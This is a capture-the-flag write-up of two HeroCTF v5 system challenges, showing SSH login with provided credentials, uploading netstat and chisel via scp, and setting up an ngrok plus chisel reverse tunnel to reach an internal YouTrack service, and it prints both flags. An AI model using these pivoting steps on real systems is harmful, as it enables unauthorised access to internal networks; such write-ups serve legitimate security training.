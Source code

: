# IMF#0 - 1

## Table of Contents

1. [IMF#0: Your mission, should you choose to accept it](#imf0-your-mission-should-you-choose-to-accept-it)
	- [Overview](#overview)
	- [Background](#background)
2. [IMF#1: Bug Hunting](#imf1-bug-hunting)
	- [Overview](#overview-1)
	- [Background](#background-1)
	- [Enumeration](#enumeration)
3. [Conclusion](#conclusion)

## IMF#0: Your mission, should you choose to accept it

### Overview

- 368 solves / 50 points
- Difficulty: Easy
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

### Background

The Infamous Mother Fluckers have been hired to take down a guy named Dave. I think his sister's husband's cousin's wife's brother's son had an affaire with our client's wife, and for some reason he want's to take it out on him. But who are we to judge right ? We're getting paid, that's enough for me.  
  
I got you a job in the same development start-up as Dave. In fact, you are his team mate. I asked around in some underground circles, and word is on the streets that our guy is selling customer information. If you can get proof of that and send it to his boss, he'll get fired and we'll get paid. I'm counting on you.  
  
And keep you eyes opened, you might find some other interseting stuff on the company's network.  
  
For this mission, you are bob. Your ssh credentials are `bob:password`.  
  
Enter this flag to accept the mission : `Hero{I_4cc3pt_th3_m1ss10n}`  
  
_This message will self-destruct in 5 seconds._  
  
> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)  
  
Format : **Hero{flag}**  
Author : **Log_s**

- **Flag: `Hero{I_4cc3pt_th3_m1ss10n}`**

## IMF#1: Bug Hunting

### Overview

- 99 solves / 68 points
- Difficulty: Easy
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

### Background

Tracking bugs can be tidious, if you're not equiped with the right tools of course...  
  
> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)  
  
Format : **Hero{flag}**  
Author : **Log_s**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230514191443.png)

### Enumeration

**In this challenge, we can SSH into user `bob` with password `password`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/IMF#0-#4)-[2023.05.14|18:56:37(HKT)]
└> ssh bob@dyn-01.heroctf.fr -p 11386
[...]
bob@dyn-01.heroctf.fr's password: 
[...]
bob@dev:~$ 
```

```
bob@dev:~$ cat welcome.txt 
Hi Bob!

Welcome to our firm. I'm Dave, the tech lead here. We are going to be working together on our app.

Unfortunately, I will be on leave when you arrive. So take the first few days to get familiar with our infrastructure, and tools.

We are using YouTrack as our main issue tracker. The app runs on this machine (port 8080). We are both going to use the "dev" account at first, but I will create a separate account for you later. There is also an admin account, but that's for our boss. The credentials are: "dev:aff6d5527753386eaf09".

The development server with the codebase is offline for a few days due to a hardware failure on our hosting provider's side, but don't worry about that for now.

We also have a backup server, that is supposed to backup the main app's code (but it doesn't at the time) and also the YouTrack configuration and data.

Only I have an account to access it, but you won't need it. If you really have to see if everything is running fine, I made a little utility that run's on a web server.

The command to check the logs is:
curl backup

The first backups might be messed up a bit, a lot bigger than the rest, they occured while I was setting up YouTrack with it's administration account.

Hope you find everything to you liking, and welcome again!

Dave
```

**So, there's a "YouTrack" Project Management Tool, and we can login with credentials: `dev:aff6d5527753386eaf09`.**

**Since the instance machine doesn't have `netstat`, I'll upload it via `scp`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/IMF#0-#4)-[2023.05.14|19:01:54(HKT)]
└> scp -P 11386 -r /usr/bin/netstat bob@dyn-01.heroctf.fr:/tmp/netstat
bob@dyn-01.heroctf.fr's password: 
netstat                                                              100%  152KB 192.1KB/s   00:00    
```

```shell
bob@dev:~$ /tmp/netstat -tunlp
(No info could be read for "-p": geteuid()=1001 but you should be root.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:35533         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.11:45091        0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.11:58050        0.0.0.0:*                           -                   
```

Can confirm port 8080 is listening on all interface. Also, there's a weird 35533 port open?

Anyway, to access the YouTrack application, we can use a port forwarding tool.

**To do so, I'll use `chisel`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/IMF#0-#4)-[2023.05.14|19:03:20(HKT)]
└> scp -P 11386 -r /opt/chisel/chiselx64 bob@dyn-01.heroctf.fr:/tmp/chisel  
bob@dyn-01.heroctf.fr's password: 
chiselx64                                                            100% 7888KB 317.8KB/s   00:24    
```

**Setup a port forwarding service, like Ngrok:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/IMF#0-#4)-[2023.05.14|19:12:03(HKT)]
└> ngrok tcp 4444 
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:16442 -> localhost:4444                              
[...]
```

**Setup a reverse port forwarding server:**
```shell
┌[siunam♥earth]-(/opt/chisel)-[2023.05.14|19:04:57(HKT)]
└> ./chiselx64 server -p 4444 --reverse
2023/05/14 19:05:42 server: Reverse tunnelling enabled
2023/05/14 19:05:42 server: Fingerprint MNPD78StKIbLJT5I39BqUCw190PpkWyXRkPyhKPnxMM=
2023/05/14 19:05:42 server: Listening on http://0.0.0.0:4444
```

**Connect to server from the client:**
```shell
bob@dev:~$ /tmp/chisel client 0.tcp.ap.ngrok.io:16442 R:5001:0.0.0.0:8080&
[2] 1197
11:19:01 client: Connecting to ws://0.tcp.ap.ngrok.io:16442
11:19:03 client: Connected (Latency 270.048918ms)
```

**That way, we can access it from `localhost:5001`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230514192058.png)

**As we have a credential, let's login!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230514192129.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230514192145.png)

**In here, we can view "Issues":**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230514192329.png)

**In "ST-5 Is that..." issue, we can find the flag!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230514192432.png)

- **Flag: `Hero{1_tr4ck_y0u_tr4ck_h3_tr4ck5}`**

## Conclusion

What we've learned:

1. Port Forwarding With `chisel` & Enumerating YouTrack